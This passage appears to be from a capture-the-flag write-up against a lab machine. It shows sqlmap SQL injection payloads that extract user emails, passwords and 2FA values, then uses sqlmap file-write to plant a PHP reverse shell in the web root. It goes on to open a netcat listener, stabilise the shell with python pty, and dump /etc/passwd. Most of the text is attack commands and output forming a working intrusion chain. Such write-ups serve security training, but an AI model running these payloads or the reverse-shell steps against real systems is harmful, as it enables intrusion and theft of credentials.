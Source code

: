 ```
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: subnet=union select(select concat(@:=0x3a,(select+count(";SELECT SLEEP(5)#) from(users)where(@:=concat(@,email,0x3a,password,"0x3a",2fa))),@)),2,3,user() -- -&bgp_id=2

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: subnet=union select(select concat(@:=0x3a,(select+count(" AND (SELECT 2780 FROM (SELECT(SLEEP(5)))HmMK)-- uuRL) from(users)where(@:=concat(@,email,0x3a,password,"0x3a",2fa))),@)),2,3,user() -- -&bgp_id=2

    Type: UNION query
    Title: MySQL UNION query (NULL) - 1 column
    Payload: subnet=union select(select concat(@:=0x3a,(select+count(" UNION ALL SELECT NULL,NULL,CONCAT(0x7178707871,0x48776a7368716a75736a6e736c797a4f4846686d736d5554564a657353496548514b445276595445,0x716a7a6271),NULL#) from(users)where(@:=concat(@,email,0x3a,password,"0x3a",2fa))),@)),2,3,user() -- -&bgp_id=2
[13:34:26] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[13:34:26] [INFO] fetched data logged to text files under '/home/pointnext/.local/share/sqlmap/output/10.10.55.216'
```

OK. So that worked. Now we just need to inject our reverse shell. I used the standard pentest monkey php file for this. Updating attacker IP and port accordingly.
```bash
sqlmap -r req.txt -dbs --file-dest=/var/www/html/rev_shell.php --file-write=./rev_shell.php
```
Setup a nc listener
```bash
rlwrap nc -nlvp 9090
```

Run the script in the web browser!

### We're in!

Stablise the shell. 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

let's have a look at /etc/passwd

**Results:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```